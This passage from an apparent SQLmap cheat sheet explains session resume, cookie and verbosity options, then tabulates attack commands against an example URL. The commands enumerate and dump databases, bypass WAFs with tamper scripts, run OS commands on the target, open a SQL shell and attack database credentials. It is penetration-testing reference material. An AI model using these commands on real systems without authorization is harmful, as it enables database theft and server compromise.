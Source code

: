 #### **18. Resume Session**
- **Description:** Resume a previously saved session.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --resume=mysession
  ```
- **Explanation:**
  - `--resume` resumes the saved session, continuing from where it left off.

#### **19. Use Cookies**
- **Description:** Use session cookies to authenticate requests.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="PHPSESSID=abc123"
  ```
- **Explanation:**
  - `--cookie` provides the session cookie for requests, allowing authenticated access to the target.

#### **20. Set Verbosity Level**
- **Description:** Adjust the verbosity of the output.
- **Command:**
  ```bash
  sqlmap -u "http://example.com/vulnerable.php?id=1" -v 3
  ```
- **Explanation:**
  - `-v` sets the verbosity level, with `3` providing detailed output, useful for debugging and understanding the attack process.

---

### **Summary of SQLmap Commands**

|**Command**|**Description**|
|---|---|
|`sqlmap -u "http://example.com/vulnerable.php?id=1"`|Scan URL for SQL injection vulnerabilities|
|`sqlmap -u "http://example.com/vulnerable.php" --data "id=1"`|Define POST request method|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --dbs`|Enumerate databases on the server|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" -D db_name --tables`|List tables within a specific database|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" -D db_name -T table_name --columns`|List columns in a specific table|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" -D db_name -T table_name -C col_name --dump`|Extract data from a specific column|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --banner`|Retrieve database version and banner information|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper="space2comment"`|Bypass WAF/IPS using tamper scripts|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://127.0.0.1:8080"`|Use a proxy server for requests|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --fingerprint`|Identify the back-end DBMS|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --os-cmd="whoami"`|Run OS commands on the target server|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --search -C "user,pass"`|Search for specific data across all tables|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell`|Open an interactive SQL shell|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --passwords`|Perform a brute-force attack on database credentials|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --batch`|Automate exploitation with default options|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --dump-all`|Dump all data from the database|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --save-session=mysession`|Save the current session to resume later|
|`sqlmap -u "http://example.com/vulnerable.php?id=1" --resume=mysession`|Resume a previously saved session|